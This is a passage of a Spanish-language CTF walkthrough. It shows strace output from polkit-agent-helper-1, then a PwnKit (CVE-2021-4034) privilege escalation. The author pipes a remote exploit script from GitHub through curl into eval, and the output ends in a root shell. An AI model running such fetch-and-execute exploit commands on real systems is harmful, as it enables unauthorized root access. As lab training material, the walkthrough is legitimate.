mmap(0x706f9370c000, 53248, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x3d000) = 0x706f9370c000
mmap(0x706f93719000, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x49000) = 0x706f93719000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libselinux.so.1", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=174472, ...}) = 0
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x706f936cd000
mmap(NULL, 181960, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f936a0000
mmap(0x706f936a6000, 118784, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x6000) = 0x706f936a6000
mmap(0x706f936c3000, 24576, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x23000) = 0x706f936c3000
mmap(0x706f936c9000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x29000) = 0x706f936c9000
mmap(0x706f936cb000, 5832, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x706f936cb000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libcap.so.2", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\340\201\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=51536, ...}) = 0
mmap(NULL, 49224, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f93693000
mmap(0x706f93696000, 24576, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x3000) = 0x706f93696000
mmap(0x706f9369c000, 8192, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x9000) = 0x706f9369c000
mmap(0x706f9369e000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0xb000) = 0x706f9369e000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libgcrypt.so.20", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=1340976, ...}) = 0
mmap(NULL, 1340272, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f9354b000
mmap(0x706f9355a000, 999424, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0xf000) = 0x706f9355a000
mmap(0x706f9364e000, 241664, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x103000) = 0x706f9364e000
mmap(0x706f93689000, 36864, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x13e000) = 0x706f93689000
mmap(0x706f93692000, 880, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x706f93692000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/liblz4.so.1", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=137440, ...}) = 0
mmap(NULL, 135264, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f93529000
mmap(0x706f9352c000, 110592, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x3000) = 0x706f9352c000
mmap(0x706f93547000, 8192, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1e000) = 0x706f93547000
mmap(0x706f93549000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x20000) = 0x706f93549000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/liblzma.so.5", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=202904, ...}) = 0
mmap(NULL, 200728, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f934f7000
mmap(0x706f934fa000, 139264, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x3000) = 0x706f934fa000
mmap(0x706f9351c000, 45056, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x25000) = 0x706f9351c000
mmap(0x706f93527000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x30000) = 0x706f93527000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libzstd.so.1", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=755864, ...}) = 0
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x706f934f5000
mmap(NULL, 757816, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f9343b000
mmap(0x706f9343f000, 684032, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x4000) = 0x706f9343f000
mmap(0x706f934e6000, 53248, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0xab000) = 0x706f934e6000
mmap(0x706f934f3000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0xb7000) = 0x706f934f3000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libblkid.so.1", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=236592, ...}) = 0
mmap(NULL, 238520, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f93400000
mmap(0x706f93407000, 147456, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x7000) = 0x706f93407000
mmap(0x706f9342b000, 36864, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x2b000) = 0x706f9342b000
mmap(0x706f93434000, 28672, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x33000) = 0x706f93434000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libgpg-error.so.0", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=149760, ...}) = 0
mmap(NULL, 147880, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f933db000
mmap(0x706f933df000, 90112, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x4000) = 0x706f933df000
mmap(0x706f933f5000, 36864, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1a000) = 0x706f933f5000
mmap(0x706f933fe000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x23000) = 0x706f933fe000
close(3)                                = 0
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x706f933d9000
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x706f933d7000
arch_prctl(ARCH_SET_FS, 0x706f933d7d80) = 0
set_tid_address(0x706f933d8050)         = 52919
set_robust_list(0x706f933d8060, 24)     = 0
rseq(0x706f933d86a0, 0x20, 0, 0x53053053) = 0
mprotect(0x706f93bff000, 16384, PROT_READ) = 0
mprotect(0x706f933fe000, 4096, PROT_READ) = 0
mprotect(0x706f93434000, 24576, PROT_READ) = 0
mprotect(0x706f934f3000, 4096, PROT_READ) = 0
mprotect(0x706f93527000, 4096, PROT_READ) = 0
mprotect(0x706f93549000, 4096, PROT_READ) = 0
mprotect(0x706f93689000, 20480, PROT_READ) = 0
mprotect(0x706f9369e000, 4096, PROT_READ) = 0
mprotect(0x706f93cab000, 4096, PROT_READ) = 0
mprotect(0x706f936c9000, 4096, PROT_READ) = 0
mprotect(0x706f93719000, 8192, PROT_READ) = 0
mprotect(0x706f93736000, 4096, PROT_READ) = 0
mprotect(0x706f9382e000, 4096, PROT_READ) = 0
mprotect(0x706f93f11000, 4096, PROT_READ) = 0
mprotect(0x706f9373d000, 4096, PROT_READ) = 0
mprotect(0x706f93745000, 4096, PROT_READ) = 0
mprotect(0x706f93cb9000, 4096, PROT_READ) = 0
mprotect(0x706f93d8e000, 45056, PROT_READ) = 0
mprotect(0x706f93f73000, 12288, PROT_READ) = 0
mprotect(0x706f939f5000, 32768, PROT_READ) = 0
mprotect(0x706f93dbb000, 4096, PROT_READ) = 0
mprotect(0x706f93f95000, 4096, PROT_READ) = 0
mprotect(0x706f93fa6000, 4096, PROT_READ) = 0
mprotect(0x55c06f3e3000, 4096, PROT_READ) = 0
mprotect(0x706f93ffc000, 8192, PROT_READ) = 0
prlimit64(0, RLIMIT_STACK, NULL, {rlim_cur=8192*1024, rlim_max=RLIM64_INFINITY}) = 0
munmap(0x706f93fa8000, 88059)           = 0
getrandom("\xe8\x4a\x69\xd3\xb1\x40\x62\x56", 8, GRND_NONBLOCK) = 8
brk(NULL)                               = 0x55c0819fe000
brk(0x55c081a1f000)                     = 0x55c081a1f000
prctl(PR_CAPBSET_READ, CAP_MAC_OVERRIDE) = 1
prctl(PR_CAPBSET_READ, 0x30 /* CAP_??? */) = -1 EINVAL (Argumento inválido)
prctl(PR_CAPBSET_READ, CAP_CHECKPOINT_RESTORE) = 1
prctl(PR_CAPBSET_READ, 0x2c /* CAP_??? */) = -1 EINVAL (Argumento inválido)
prctl(PR_CAPBSET_READ, 0x2a /* CAP_??? */) = -1 EINVAL (Argumento inválido)
prctl(PR_CAPBSET_READ, 0x29 /* CAP_??? */) = -1 EINVAL (Argumento inválido)
statfs("/sys/fs/selinux", 0x7fffa3db8260) = -1 ENOENT (No existe el archivo o el directorio)
statfs("/selinux", 0x7fffa3db8260)      = -1 ENOENT (No existe el archivo o el directorio)
openat(AT_FDCWD, "/proc/filesystems", O_RDONLY|O_CLOEXEC) = 3
fstat(3, {st_mode=S_IFREG|0444, st_size=0, ...}) = 0
read(3, "nodev\tsysfs\nnodev\ttmpfs\nnodev\tbd"..., 1024) = 407
read(3, "", 1024)                       = 0
close(3)                                = 0
access("/etc/selinux/config", F_OK)     = -1 ENOENT (No existe el archivo o el directorio)
openat(AT_FDCWD, "/proc/sys/kernel/cap_last_cap", O_RDONLY) = 3
fstatfs(3, {f_type=PROC_SUPER_MAGIC, f_bsize=4096, f_blocks=0, f_bfree=0, f_bavail=0, f_files=0, f_ffree=0, f_fsid={val=[0x19, 0]}, f_namelen=255, f_frsize=4096, f_flags=ST_VALID|ST_NOSUID|ST_NODEV|ST_NOEXEC|ST_RELATIME}) = 0
read(3, "40\n", 7)                      = 3
close(3)                                = 0
prctl(PR_CAPBSET_READ, CAP_CHOWN)       = 1
prctl(PR_GET_SECUREBITS)                = 0
prctl(PR_GET_NO_NEW_PRIVS, 0, 0, 0, 0)  = 0
prctl(PR_CAP_AMBIENT, PR_CAP_AMBIENT_IS_SET, CAP_CHOWN, 0, 0) = 0
futex(0x706f93f12de8, FUTEX_WAKE_PRIVATE, 2147483647) = 0
futex(0x706f93f12de8, FUTEX_WAKE_PRIVATE, 2147483647) = 0
geteuid()                               = 1000
write(2, "polkit-agent-helper-1: needs to "..., 47polkit-agent-helper-1: needs to be setuid root
) = 47
fstat(1, {st_mode=S_IFIFO|0600, st_size=0, ...}) = 0
write(1, "PAM_ERROR_MSG Incorrect permissi"..., 89) = 89
write(1, "FAILURE\n", 8)                = 8
fdatasync(1)                            = -1 EINVAL (Argumento inválido)
fdatasync(2)                            = -1 EINVAL (Argumento inválido)
clock_nanosleep(CLOCK_REALTIME, 0, {tv_sec=0, tv_nsec=100000000}, NULL) = 0
exit_group(1)                           = ?
+++ exited with 1 +++
```

Encontramos lineas interesantes:

`polkit-agent-helper-1: needs to be setuid root` indica que debería tener setuid root, pero no lo tiene.

Si buscamos `polkit cve setuid`, encontramos la siguiente vulnerabilidad:

https://www.alibabacloud.com/help/en/ecs/vulnerability-announcement-or-linux-polkit-privilege-escalation-vulnerability

Encontramos un exploit:
https://github.com/berdav/CVE-2021-4034/tree/main

```bash
[magellan@venus ~]$ eval "$(curl -s https://raw.githubusercontent.com/berdav/CVE-2021-4034/main/cve-2021-4034.sh)"
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
sh-5.1# whoami
root
```

